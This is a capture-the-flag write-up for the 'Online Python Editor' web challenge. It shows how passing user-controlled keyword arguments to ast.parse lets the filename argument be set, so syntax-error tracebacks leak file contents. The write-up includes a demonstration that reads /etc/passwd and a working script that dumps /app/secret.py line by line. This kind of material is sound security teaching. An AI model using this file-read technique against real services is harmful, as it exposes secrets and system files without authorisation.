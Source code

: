 ```yaml
---
title: TRX CTF 25 - Online Python Editor
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- web
authors:
- salvatore.abello
---
```


This is an easy server side challenge

## Overview

We're given a challenge that allows us to edit Python code online. Syntax checks are performed server-side using `ast.parse`, and the source code is passed by unpacking `request.json` into the function call. If an exception is thrown, the traceback will be returned to us.

Our goal is to read the content of `secret.py`

Since the source code is nearly non-existent, the vulnerability clearly lies in how `ast.parse` is called:

```py
ast.parse(**request.json)
```

Let's review the documentation for `ast.parse`:

```py
parse(
    source,
    filename='<unknown>',
    mode='exec',
    *,
    type_comments=False,
    feature_version=None,
    optimize=-1
)
    Parse the source into an AST node.
    Equivalent to compile(source, filename, mode, PyCF_ONLY_AST).
    Pass type_comments=True to get back type comments where the syntax allows.
```

Although we're not able to execute arbitrary code, there's something interesting here:

> Equivalent to `compile(source, filename, mode, PyCF_ONLY_AST)`

`compile` is known to be unsafe if used in a certain way. In fact, we can read files by causing a syntax error. For example:

```py
>>> compile(".", "/etc/passwd", "exec")
Traceback (most recent call last):
  File "<python-input-3>", line 1, in <module>
    compile(".", "/etc/passwd", "exec")
    ~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/etc/passwd", line 1
    root:x:0:0:Super User:/root:/bin/bash
    ^
```

To read multiple lines, we can add a newline before the dot, like this:

```py
compile("\n.", "/etc/passwd", "exec")
```

# Final exploit

```py
import requests

URL = "http://localhost:3000"

for x in range(32):
    leak_source = "\n"*x + "."
    response = requests.post(f"{URL}/check", json={
        "source": leak_source,
        "filename": "/app/secret.py"
        })
    leak = response.json()["error"].split("\n")[-4].strip()
    
    if leak == ".":
        break
    
    print(leak)
```